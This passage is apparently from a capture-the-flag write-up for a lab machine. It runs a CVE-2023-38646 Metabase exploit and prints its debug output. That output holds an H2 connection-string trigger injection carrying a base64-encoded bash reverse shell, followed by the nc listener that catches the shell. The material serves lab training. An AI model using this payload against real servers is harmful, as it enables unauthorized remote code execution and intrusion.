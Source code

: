 ```bash
python3 CVE-2023-38646.py --rhost http://data.analytical.htb/ --lhost 10.10.14.2 --lport 7777

[DEBUG] Original rhost: http://data.analytical.htb/
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.14.2, lport: 7777
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
[DEBUG] Setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Payload = YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjIvNzc3NyAwPiYx
[DEBUG] Sending request to http://data.analytical.htb/api/setup/validate with headers {'Content-Type': 'application/json'} and data {
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details": {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules": {},
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjIvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "test",
        "engine": "h2"
    }
}
[DEBUG] Response received: {"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjIvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

I did get an error but I got a shell anyway. Odd but all too common in a lot of these types of exploits.

```bash
nc -nvlp 7777

Listening on 0.0.0.0 7777
Connection received on 10.10.11.233 37568
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
7588b98dcb8f:/$ whoami
whoami
metabase
```
